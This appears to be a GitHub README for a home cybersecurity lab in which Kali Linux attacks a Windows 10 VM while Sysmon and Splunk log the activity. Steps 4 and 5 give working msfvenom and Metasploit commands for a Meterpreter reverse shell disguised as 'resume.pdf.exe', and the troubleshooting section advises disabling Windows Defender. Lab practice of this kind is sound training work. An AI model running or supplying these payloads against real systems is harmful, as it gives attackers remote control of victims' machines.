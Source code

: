 # SOC Home Lab: Attack & Defense Simulation

---

## 📌 Table of Contents

1. [Introduction](#introduction)
2. [Prerequisites](#prerequisites)
3. [Network Topology](#network-topology)
4. [Step 1: Setting Up Virtual Machines](#step-1-setting-up-virtual-machines)
5. [Step 2: Installing Splunk for Log Monitoring](#step-2-installing-splunk-for-log-monitoring)
6. [Step 3: Installing Sysmon on Windows 10](#step-3-installing-sysmon-on-windows-10)
7. [Step 4: Generating Malware with msfvenom](#step-4-generating-malware-with-msfvenom)
8. [Step 5: Setting Up a Metasploit Listener](#step-5-setting-up-a-metasploit-listener)
9. [Step 6: Monitoring Logs with Splunk](#step-6-monitoring-logs-with-splunk)
10. [Troubleshooting](#troubleshooting)
11. [Next Steps & Future Improvements](#next-steps--future-improvements)
12. [How to Contribute](#how-to-contribute)
13. [Conclusion](#conclusion)

---

## 📌 Introduction

This project demonstrates the setup of a home lab environment for cybersecurity testing, including:

- **Attacker Machine** → Kali Linux
- **Target Machine** → Windows 10 VM
- **Logging System** → Splunk for monitoring malicious activities

Key activities include:
- Setting up virtual machines
- Installing and configuring Sysmon for log collection
- Deploying malware using `msfvenom`
- Monitoring attacks using Splunk

---

## 🔧 Prerequisites

| Requirement                | Description                                  |
|----------------------------|----------------------------------------------|
| **RAM**                    | At least **16GB** (to run multiple VMs)     |
| **Virtualization Software** | VMware Workstation or VirtualBox            |
| **Operating Systems**       | ISO files for Windows 10 and Kali Linux     |
| **Logging Tools**           | Splunk and Sysmon setup files               |
| **Internet Connection**     | Required for downloading and configuring tools |

---

## 🎬 Network Topology Animation

View  **interactive network diagram**:

➡️ ![View Animation](animation2.svg)

📌 *The Kali Linux machine attacks the Windows VM, and logs are collected by Splunk for analysis.*

---

## Step 1: Setting Up Virtual Machines

### 🖥️ 1.1 Install Kali Linux (Attacker Machine)

1. Download **Kali Linux ISO** from [Kali Official Website](https://www.kali.org/downloads/).
2. Create a new VM in VMware/VirtualBox and install Kali Linux.
3. Update and upgrade Kali:
   ```bash
   sudo apt update && sudo apt upgrade -y
   ```

### 🖥️ 1.2 Install Windows 10 (Target Machine)

1. Download Windows 10 ISO from [Microsoft's website](https://www.microsoft.com/en-us/software-download/windows10ISO).
2. Create a new VM and install Windows 10.
3. Ensure **networking is enabled** for communication between VMs.

---

## Step 2: Installing Splunk for Log Monitoring

1. Download **Splunk Free** from [Splunk Website](https://www.splunk.com/).
2. Install Splunk on your Windows 10 VM.
3. Start Splunk and log in with admin credentials.
4. Enable **data collection** for monitoring logs.

---

## Step 3: Installing Sysmon on Windows 10

1. Download Sysmon from [Microsoft Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon).
2. Download a pre-configured `sysmonconfig.xml` from [Sysmon Modular](https://github.com/olafhartong/sysmon-modular).
3. Open **PowerShell as Administrator** and run:
   ```powershell
   cd "C:\Users\Downloads\sysmon"
   .\sysmon64.exe -i sysmonconfig.xml
   ```
4. Verify Sysmon is running:
   ```powershell
   Get-Process sysmon64
   ```

---

## Step 4: Generating Malware with msfvenom

On Kali Linux, generate a malicious executable:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe
```
📌 *This creates `resume.pdf.exe`, which acts as our payload.*

---

## Step 5: Setting Up a Metasploit Listener

1. Open Metasploit on Kali:
   ```bash
   msfconsole
   ```
2. Configure the listener:
   ```bash
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST <Attacker_IP>
   set LPORT 4444
   exploit
   ```
3. Deploy `resume.pdf.exe` on Windows 10 and execute it.
4. If successful, you gain a Meterpreter session:
   ```bash
   meterpreter > sysinfo
   ```

---

## Step 6: Monitoring Logs with Splunk

1. Open Splunk and search for unauthorized activity:
   ```
   index=main sourcetype=WinEventLog:Security
   ```
2. Identify anomalies related to unauthorized access.
3. Create alerts to detect suspicious behavior.

---

## 🔍 Troubleshooting

### ❌ Metasploit Handler Not Receiving a Session
- Ensure Windows Defender is **disabled** to prevent blocking the payload.
- Double-check **LHOST and LPORT settings** in both `msfvenom` and `msfconsole`.
- Run the payload on Windows as **Administrator**.

### ❌ Splunk Not Logging Events
- Verify Sysmon is correctly installed and running.
- Ensure Windows Event Logging is enabled in Splunk.
- Restart Splunk and recheck the event index.

---

## 🎯 Next Steps & Future Improvements

✔️ Integrate **ELK Stack** for enhanced log analysis.
✔️ Automate attack execution using **Python scripts**.
✔️ Implement **Wazuh SIEM** for better threat detection.

---

## 🤝 How to Contribute

Interested in improving this project? Contributions are welcome!

1. Fork the repository.
2. Create a new branch with your improvements.
3. Submit a pull request for review.

---

## 🎯 Conclusion

This project demonstrates how to:

- Set up a cybersecurity home lab 🏠
- Deploy and detect malware 🔍
- Use Splunk for threat monitoring ⚠️

> **Note:** This is for educational purposes only. Do not use these techniques for unauthorized activities.

### 📌 Connect with Me:
- [LinkedIn](https://www.linkedin.com/in/wasim-hassan-030b80349/)
